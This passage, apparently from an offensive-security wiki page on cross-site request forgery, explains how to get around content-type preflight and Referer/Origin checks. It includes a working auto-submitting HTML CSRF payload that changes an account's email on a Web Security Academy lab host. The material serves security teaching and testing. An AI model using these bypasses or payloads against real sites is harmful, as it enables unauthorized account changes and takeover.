As you already know, you cannot sent a POST request with the Content-Type **`application/json`** via HTML form, and if you try to do so via **`XMLHttpRequest`** a **preflight** request is sent first.\
However, you could try to send the JSON data using the content types \*\*`text/plain` and `application/x-www-form-urlencoded` \*\* just to check if the backend is using the data independently of the Content-Type.\
You can send a form using `Content-Type: text/plain` setting **`enctype="text/plain"`**

If the server is only accepting the content type "application/json", you can **send the content type "text/plain; application/json"** without triggering a preflight request.

You could also try to **bypass** this restriction by using a **SWF flash file**. More more information [**read this post**](https://anonymousyogi.medium.com/json-csrf-csrf-that-none-talks-about-c2bf9a480937).

#### Referrer / Origin check bypass

**Avoid Referrer header**

Some applications validate the Referer header when it is present in requests but **skip the validation if the header is omitted**.

```markup
<meta name="referrer" content="never">
```

**Regexp bypasses**

{% content-ref url="ssrf-server-side-request-forgery/url-format-bypass.md" %}
[url-format-bypass.md](ssrf-server-side-request-forgery/url-format-bypass.md)
{% endcontent-ref %}

To set the domain name of the server in the URL that the Referrer is going to send inside the parameters you can do:

```html
<html>
  <!-- Referrer policy needed to send the qury parameter in the referrer -->
  <head><meta name="referrer" content="unsafe-url"></head>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac651f671e92bddac04a2b2e008f0069.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      // You need to set this or the domain won't appear in the query of the referer header
      history.pushState("", "", "?ac651f671e92bddac04a2b2e008f0069.web-security-academy.net")
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### **Exploit Examples**
